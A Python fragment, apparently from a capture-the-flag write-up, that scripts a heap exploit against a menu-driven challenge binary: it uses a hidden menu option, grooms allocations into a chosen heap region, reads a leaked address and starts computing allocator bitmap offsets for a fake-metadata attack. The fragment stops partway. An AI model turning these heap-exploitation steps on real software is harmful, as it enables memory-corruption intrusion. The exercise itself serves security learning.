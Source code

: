 ~~~python


def show(idx):
    ru('You Step ## ')
    sl(str(4))
    ru('Please input chapter index ## ')
    sl(str(idx))


def magic(idx, name):
    ru('You Step ## ')
    sl(str(666))
    ru('Please input chapter index ## ')
    sl(str(idx))
    ru('Please input new chapter name ## ')
    s(name)


def add_in_same_region(idx, sz, region):
    add(idx, 'a' * 0x10, sz)
    show(idx)
    ru('a' * 0x10)

    heap_addr = u32(ru('\n')[:-1].ljust(4, b'\x00'))
    while (heap_addr >> 20 != region):
        dele(idx)
        add(idx, 'a' * 0x10, sz)
        show(idx)
        ru('a' * 0x10)
        heap_addr = u32(r(3).ljust(4, b'\x00'))
    return heap_addr


def checksum(ptr):
    sum = 0
    for _ in range(8):
        sum += (ptr & 0xff)
        ptr = ptr >> 8
    return sum & 0xf


################# leak lib address ##################

region = 2
if local:
    io = process(proc)
else:
    io = remote(ip, port)

ru('Gift: ')
magzine_list_addr = eval(r(11))
su('magzine_list_addr')

heap_addr_list = []

for i in range(3):
    heap_addr_list.append(add_in_same_region(i, 0x100, region))

bitmap_offset = (heap_addr_list[1] - region * 0x100000 -
                    0x4080) // 0x10
bitmap_pos = bitmap_offset % 0x10
bitmap_index = bitmap_offset // 0x20
fakemeta = 0
~~~